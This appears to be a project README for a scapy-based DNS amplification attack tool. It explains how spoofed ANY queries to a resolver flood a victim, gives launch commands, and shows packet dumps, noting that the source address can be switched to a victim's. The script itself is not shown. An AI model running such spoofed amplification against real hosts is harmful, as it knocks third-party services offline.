 DNS Amplification attack
===
contribute by < `ztex` >
[github-Dns-Amplification-Attack](https://github.com/tony2037/Dns-Amplification-Attack)

[hackmd](https://hackmd.io/s/rkOF6EJu4)

# How does it work ?
According to [DNS Amplification Attack](https://www.cloudflare.com/learning/ddos/dns-amplification-ddos-attack/) :

1. The attacker uses a compromised endpoint to send UDP packets with spoofed IP addresses to a DNS recursor. The spoofed address on the packets points to the real IP address of the victim.
2. Each one of the UDP packets makes a request to a DNS resolver, often passing an argument such as “ANY” in order to receive the largest response possible.
3. After receiving the requests, the DNS resolver, which is trying to be helpful by responding, sends a large response to the spoofed IP address.
4. The IP address of the target receives the response and the surrounding network infrastructure becomes overwhelmed with the deluge of traffic, resulting in a denial-of-service.

![](https://i.imgur.com/2LJ8JU4.png)

# Experience
## Explanation
In this experience, I firstly develop a toolkit base on **pathon scapy** which send a **UDP/IP** packet carry a **DNS** packet with **DNS Resource Record** packet.
The `destination` is `8.8.8.8`, which is well-known **google DNS server**.
In the experience phase, the `source address` is local, but can be easily change to `victim address` in attack phase.
- [ ] DAA.py
Used for lauching attack
- [ ] sniffer.py
Used for sniffing packet to varify

## Result
Sending: 70 bytes
Receiving: 500~ 700 bytes
Amplification is about 7 ~ 10 times

## Usage
### Build virtual environment
`virtualenv .`
### Install necessary packages
`pip3 install -r requirement`
### Lauch attack
`make DAA`
### Sniffing
`make sniffer`
### Snapshot
#### Send packet
```shell
         |###[ DNS Question Record ]### 
         |  qname     = 'qq.com'
         |  qtype     = ALL
         |  qclass    = IN
        an        = None
        ns        = None
        ar        = None

Are you sure you want to attack ? [Y]/NY
.
Sent 1 packets.
```
#### Sniffing
```shell
###[ IP ]### 
     version   = 4
     ihl       = 5
     tos       = 0x0
     len       = 52
     id        = 1
     flags     = 
     frag      = 0
     ttl       = 64
     proto     = udp
     chksum    = 0x608a
     src       = 10.1.0.30
     dst       = 8.8.8.8
     \options   \
###[ UDP ]### 
        sport     = domain
        dport     = domain
        len       = 32
        chksum    = 0x9f30
###[ DNS ]### 
           id        = 0
           qr        = 0
           opcode    = QUERY
           aa        = 0
           tc        = 0
           rd        = 1
           ra        = 0
           z         = 0
           ad        = 0
           cd        = 0
           rcode     = ok
           qdcount   = 1
           ancount   = 0
           nscount   = 0
           arcount   = 0
           \qd        \
            |###[ DNS Question Record ]### 
            |  qname     = 'qq.com.'
            |  qtype     = ALL
            |  qclass    = IN
           an        = None
           ns        = None
           ar        = None
```
